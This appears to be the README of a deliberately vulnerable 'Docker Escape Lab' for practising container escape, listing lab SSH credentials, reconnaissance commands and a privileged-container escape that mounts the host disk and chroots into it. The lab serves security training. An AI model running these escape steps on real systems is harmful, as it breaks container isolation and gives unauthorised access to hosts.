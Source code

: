 # Docker Escape Lab

## Overview
Docker Escape Lab is a vulnerable container environment designed to practice container escape techniques and understand Docker security misconfigurations.

## Quick Start

**SSH Access**: `ssh user@localhost -p 2222`

**Default Credentials**:
- Username: `user`
- Password: `escape`

**Container Access**:
- Once logged in via SSH, you'll be inside a Docker container
- Goal: Escape to the host system

## Container Information

### Initial Reconnaissance
```bash
# Check if you're in a container
cat /proc/1/cgroup

# Docker socket check
ls -la /var/run/docker.sock

# Kernel information
uname -a

# Check capabilities
capsh --print
```

## Escape Techniques

### 1. Privileged Container Escape
If the container is running with `--privileged` flag:
```bash
# Check if privileged
cat /proc/self/status | grep CapEff

# Mount host filesystem
mkdir /tmp/escape
mount /dev/sda1 /tmp/escape
chroot /tmp/escape
```
